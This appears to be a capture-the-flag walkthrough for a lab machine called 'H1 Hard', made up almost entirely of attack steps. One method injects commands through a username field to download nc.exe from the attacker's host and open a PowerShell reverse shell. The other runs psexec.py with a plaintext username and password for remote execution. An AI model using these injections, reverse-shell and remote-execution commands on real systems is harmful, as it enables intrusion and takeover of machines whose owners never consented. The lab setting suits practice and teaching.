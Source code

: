 # H1 Hard
## Method 1
1. goto -> `http://$IP/signup` and sign up.
2. `profile -> change username`
3. Right Click -> Inspect -> Netwok -> Right Click to script.js and click to Block URL
4. `cd webserver; python -m http.server 8080`.
5. Paste `jin | powershell curl YOUR_IP:8000/nc.exe -o nc.exe` to change username
6. Paste `nc -nvlp 45789` on your terminal and execute
2. Paste `jin | nc.exe 10.8.85.10 45789 -e powershell` to change username
## Method 2
1. Paste `python3 psexec.py hard.thm/achilles:winniethepooh@hard.thm` to terminal

